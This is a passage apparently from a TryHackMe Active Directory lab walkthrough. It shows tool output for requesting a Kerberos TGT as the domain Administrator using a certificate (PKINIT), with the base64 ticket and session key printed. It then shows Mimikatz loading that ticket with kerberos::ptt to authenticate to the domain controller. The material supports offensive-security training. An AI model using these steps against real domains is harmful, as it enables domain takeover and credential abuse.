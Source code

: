 ```
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye! 
```